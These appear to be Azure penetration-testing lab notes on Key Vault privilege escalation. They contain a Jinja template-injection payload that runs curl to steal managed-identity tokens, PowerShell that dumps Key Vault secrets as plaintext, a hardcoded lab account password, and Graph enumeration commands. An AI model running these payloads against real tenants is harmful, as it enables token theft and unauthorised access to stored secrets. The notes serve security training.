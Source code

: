 # Key Vault

### Key Vault

* Azure service for storing secrets like passwords, connection strings, certificates, private keys etc.
* With right permissions and access, Azure resources that support managed identities (VMs, App Service, Functions, Container etc.) can securely retrieve secrets from the key vault.
* Object types available with a key vault:
  * Cryptographic Keys - RSA, EC etc.
  * Secrets - Passwords, connection strings
  * Certificates - Life cycle management
  * Storage account keys - Key vault can manage and rotate access keys for storage accounts
* Objects in a key vault are identified using Object Identifier URL.
*   The base URL is of the format :

    https://{vaultname}.vault.azure.net/{object-type}/{object-name}/{object-version}

    * vault-name is the globally unique name of the key vault
    * object-type can be "keys", "secrets" or "certificates"
    * object-name is unique name of the object within the key vault
    * object version is system generated and optionally used to address a unique version of an object.
* Access to a vault is controlled though two planes:
  * Management plane - To manage the key vault and access policies. Only Azure role based access control (RBAC) is supported.
  * Data plane - To manage the data (keys, secrets and certificates) in the key vault. This supports key vault access policies or Azure RBAC.
* Please note that a role (like Owner) that has permissions in the management plane to manage access policies can get access to the secrets by modifying the access policies.

#### **Privilege Escalation - Key Vault**

* If we can compromise an azure resource whose managed identity can read secrets from a key vault (due to an access policy or assigned one of the capable roles or a custom role), it may be possible to gain access to more resources.
* Note that each secret has its own IAM inherited from the KeyVault.
* Overly permissive access policies may result in access to data stored in a vault.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3d7e6138-63c1-42d7-94c9-f77ae6717fdb/9ba123b3-4e60-489a-b98c-cbcce5c7a4e1/image.png)

```powershell
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}

Connect-AzAccount -AccessToken $token -AccountId 2e91a4fe-a0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken

Get-AzKeyVault
Get-AzKeyVaultSecret -VaultName ResearchKeyVault
Get-AzKeyVaultSecret -VaultName ResearchKeyVault -Name Reader –AsPlainText
```

```powershell
$password = ConvertTo-SecureString 'Hav3Y0uLooked@KeyVault!!Azur3' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kathynschaefer@defcorphq.onmicrosoft.com', $password)
Connect-AzAccount -Credential $creds

# Enumerating resources
Get-AzResource

# Enumerating Role assignments
Get-AzRoleAssignment -Scope /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm

Get-AzRoleDefinition -Name "Virtual Machine Command Executor"
Get-AzADGroup -DisplayName 'VM Admins'
Get-AzADGroupMember -GroupDisplayName 'VM Admins' | select DisplayName
```

```powershell
(Get-AzAccessToken -ResourceUrl <https://graph.microsoft.com>).Token

$Token =  'eyJ0eX..'
$URI = ' <https://graph.microsoft.com/v1.0/users/VMContributorX@defcorphq.onmicrosoft.com/memberOf>'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

```powershell
# Gather information about the administrative unit
Connect-AzAccount -Credential $creds
$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)

Get-MgDirectoryAdministrativeUnit -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395
Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395 | fl *
Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395 | fl *

(Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395).RoleMemberInfo
Get-MgDirectoryRole -DirectoryRoleId 5b3935ed-b52d-4080-8b05-3a1832194d3a
Get-MgUser -UserId 8c088359-66fb-4253-ad0d-a91b82fd548a | fl *
```
